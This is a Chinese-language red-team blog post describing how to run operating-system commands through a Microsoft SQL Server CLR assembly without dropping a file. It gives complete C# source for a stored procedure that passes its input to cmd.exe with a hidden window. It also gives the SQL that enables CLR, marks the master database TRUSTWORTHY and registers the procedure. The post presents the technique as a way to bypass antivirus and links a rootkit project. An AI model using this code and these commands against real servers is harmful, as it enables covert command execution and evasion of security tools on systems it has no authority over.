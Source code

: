 ```yaml
---
title: 利用MSSQL CLR 实现不落地命令执行
date: 2023-02-05
categories: [红蓝对抗]
tags: [红蓝对抗, MSSQL]
---
```


## 0X00 前言 

​	在我们想要通过SQL Server来执行命令的时候，我们通常的做法是通过`xp_cmdshell`和`sp_OACreate`来实现执行命令的需求，然而在某些条件下，我们在利用这两个存储过程的时候经常会遇到被查杀拦截等情况，这些情况导致我们无法达到我们执行的命令的需求，本文将介绍另外一种方法：利用SQL Server CLR来实现不落地执行命令的需求。

## 0X01 什么是CLR

​	CLR是微软的公共语言运行库，是 .NET Framework 的核心，为所有 .NET Framework 代码提供执行环境。 在 CLR 中运行的代码称为托管代码。 CLR 提供执行程序所需的各种函数和服务，包括实时 (JIT) 编译、分配和管理内存、强制类型安全、异常处理、线程管理和安全性。使用在 Microsoft SQL Server 中驻留的 CLR（称为 CLR 集成），可以在托管代码中编写存储过程、触发器、用户定义函数、用户定义类型和用户定义聚合。 由于托管代码在执行之前才编译为本机代码，因此在某些情形下可以大幅提高性能。

## 0X02 基于CLR的恶意dll

示例代码：

```c#
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```

在编译的时候要注意这个地方选择生成`.sql`文件

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/1.png)

同时要将权限级别改为`UNSAFE`，因为我们要调用外部程序，必须设置为`UNSAFE`才可以。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/2.png)

这段代码编译后会产生这几个文件![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/3.png)

我们可以使用SQL Server来引用这个dll文件去执行命令，这种方式这里不加以赘述，这里将讨论无文件落地的命令执行。

## 0X03 无文件落地的命令执行

在SQL Server 2016以后，默认禁用了基于CLR的DLL文件，我们可以通过如下命令解除禁用

```sql
sp_configure 'clr enabled',1
GO
RECONFIGURE
GO
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/4.png)

```sql
ALTER DATABASE master SET TRUSTWORTHY ON;//确认可信任关系
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/5.png)

接下来我们需要用上述目录中生成的`.sql`文件中的一段代码来创建我们的存储过程

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/6.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/7.png)

可见成功创建了一个clr的程序集，然后我们使用如下代码创建存储过程

```sql
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR(MAX)
AS EXTERNAL NAME [clr].[StoredProcedures].[ExecCommand]
go
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/8.png)

可见成功创建了存储过程，然后执行命令

```sql
exec dbo.execcommand 'whoami'
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/9.png)

## 0x04 小结

​	CLR的命令执行可以在一些情况下bypass杀软达到我们预期执行命令的需求，笔者在这里只是给出简单的demo代码，具体复杂的实现，读者可以自行研究，或可魔改或可直接使用[这个项目](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit/)实现其他功能。.

### 注：本文仅用于安全研究和学习之用